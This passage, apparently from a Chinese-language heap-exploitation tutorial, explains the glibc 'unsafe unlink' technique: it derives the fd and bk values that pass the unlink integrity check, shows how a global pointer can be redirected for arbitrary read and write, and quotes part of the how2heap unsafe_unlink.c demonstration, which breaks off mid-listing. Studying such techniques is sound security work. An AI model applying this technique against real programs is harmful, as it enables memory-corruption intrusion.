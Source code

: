 需要满足做到如下两点

```c
P->fd->bk=P
P->bk->fd=P
```

在看我们在0x3里面选的addr和except value，我们需要构造两个巧妙的值，才能绕过上面的防护。

但是addr和except value该怎么取呢？不妨就让他们相等，列出一个等式(注意下面不是赋值，是等式)，求解

```c
P->fd->bk =*（addr-3*4+3*4）=P    ==>  addr = &P 
P->bk->fd = *(except value + 2*4) = P => except value = &P-2*4  
```

**所以当我们把fd内容设置为(&P-3\*4)，把bk的内容设置为（&P-2\*4）的时候，就可以绕过这个安全检测机制 **。

接下里就是修改指针的内容了：

```c
p->fd->bk = p->bk
p->bk->fd = p->fd

因为 p->fd->bk=P->bk->fd = P
所以最后 P=&P-3*4 
```

也就是说，P指针本来是指向堆空间的，但是他现在它指向了比它地址小12的地方。假如说P指针是一个全局变量，是存在bss段的，那么我们就可以通过修改bss段的P指针实现对任意地址的读和写。

#### 0x5 分析unsafe unlink的代码，理解unlink漏洞 

unsafe unlinke的代码在这里：[https://github.com/Escapingbug/how2heap/blob/master/unsafe_unlink.c](https://github.com/Escapingbug/how2heap/blob/master/unsafe_unlink.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 14.04/16.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;
	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");
	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'next_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) != False\n");
```